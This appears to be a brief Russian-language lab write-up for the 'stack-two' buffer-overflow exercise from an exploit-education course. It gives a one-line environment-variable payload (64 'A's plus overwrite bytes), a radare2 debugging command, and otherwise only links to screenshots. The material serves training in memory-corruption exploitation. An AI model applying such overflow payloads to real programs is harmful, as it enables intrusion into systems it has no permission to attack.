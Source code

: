 здесь необходимо создать переменную окружения 

export ExplotEducation=$(python3 -c "print('A'*64 + '\x0a\x09\x0a\x0d', end='')")

Запускаем радар2
r2 -d stack-two

стек до\
![alt text](../images/stack-two/1.png)

после \
![alt text](../images/stack-two/2.png)

код проверки \
![alt text](../images/stack-two/3.png)

содержимое eax\
![alt text](../images/stack-two/4.png)

победа\
![alt text](../images/stack-two/5.png)